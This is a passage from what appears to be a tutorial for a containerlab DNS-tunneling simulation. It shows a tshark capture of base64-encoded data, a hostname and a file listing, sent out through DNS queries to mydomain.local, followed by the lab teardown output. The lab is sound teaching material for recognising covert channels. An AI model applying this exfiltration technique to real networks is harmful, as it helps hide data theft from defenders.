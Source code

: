 ```
┌──(ccrollin㉿thinkbox)-[~/cybersecurity-containerlabs/command-control/dns_tunneling]
└─$ tshark -r client/captures/capture.pcapng
    1 0.000000000  172.20.20.4 → 172.20.20.5  DNS 116 Standard query response 0xbe4f A d29ya3N0YXRpb24tMQo=.mydomain.local A 172.20.20.4
    2 0.004345400  172.20.20.5 → 172.20.20.4  DNS 107 Standard query 0xa30a A RG9ja2VyZmlsZQpjYXB0dXJlLnNoCmNh.mydomain.local
    3 0.004749100  172.20.20.5 → 172.20.20.4  DNS 107 Standard query 0xfdba A cHR1cmVzCmRuc19sb29rdXAucHkKcGFj.mydomain.local
    4 0.005361900  172.20.20.5 → 172.20.20.4  DNS 107 Standard query 0xae8b A a2V0X2NhcHR1cmUucHkKcmVxdWlyZW1l.mydomain.local
    5 0.005519400  172.20.20.4 → 172.20.20.5  DNS 136 Standard query response 0xa30a A RG9ja2VyZmlsZQpjYXB0dXJlLnNoCmNh.mydomain.local A 172.20.20.4
    6 0.005753200  172.20.20.5 → 172.20.20.4  DNS 87 Standard query 0xd9a8 A bnRzLnR4dAo=.mydomain.local
    7 0.005766000  172.20.20.4 → 172.20.20.5  DNS 136 Standard query response 0xfdba A cHR1cmVzCmRuc19sb29rdXAucHkKcGFj.mydomain.local A 172.20.20.4
    8 0.006702800  172.20.20.4 → 172.20.20.5  DNS 136 Standard query response 0xae8b A a2V0X2NhcHR1cmUucHkKcmVxdWlyZW1l.mydomain.local A 172.20.20.4
    9 1.865723411 02:42:ac:14:14:05 → 02:42:ac:14:14:04 ARP 42 Who has 172.20.20.4? Tell 172.20.20.5
   10 1.865841611 02:42:ac:14:14:04 → 02:42:ac:14:14:05 ARP 42 172.20.20.4 is at 02:42:ac:14:14:04
   11 2.176001613 fe80::1821:ff:fe00:0 → ff02::2      ICMPv6 70 Router Solicitation from 1a:21:00:00:00:00
   12 5.055731214 02:42:ac:14:14:04 → 02:42:ac:14:14:05 ARP 42 Who has 172.20.20.5? Tell 172.20.20.4
   13 5.055741314 02:42:ac:14:14:05 → 02:42:ac:14:14:04 ARP 42 172.20.20.5 is at 02:42:ac:14:14:05
```

#### Packet Capture File
A sample packet capture file can be downloaded at [`tutorial/dns_tunneling.pcapng`](/cybersecurity-containerlabs/command-control/dns_tunneling/tutorial/dns_tunneling.pcapng).

## Stopping the Simulation
When you are done with the simulation, you can stop the containerlab, using the `make destroy` script file. **You will be asked to authenticate because containerlab requires sudo permissions**. Your terminal output should resemble to snippet below.
```
┌──(ccrollin㉿thinkbox)-[~/cybersecurity-containerlabs/command-control/dns_tunneling]
└─$ make destroy
sudo containerlab destroy
INFO[0000] Parsing & checking topology file: dns-tunneling.clab.yml 
WARN[0000] errors during iptables rules install: not available 
INFO[0000] Destroying lab: dns-tunneling                
INFO[0001] Removed container: clab-dns-tunneling-workstation-1 
INFO[0001] Removed container: clab-dns-tunneling-company-router 
INFO[0001] Removed container: clab-dns-tunneling-home-router 
INFO[0001] Removed container: clab-dns-tunneling-dns_server 
INFO[0001] Removing containerlab host entries from /etc/hosts file 
INFO[0001] Removing ssh config for containerlab nodes   
WARN[0002] errors during iptables rules removal: not available 
docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
```
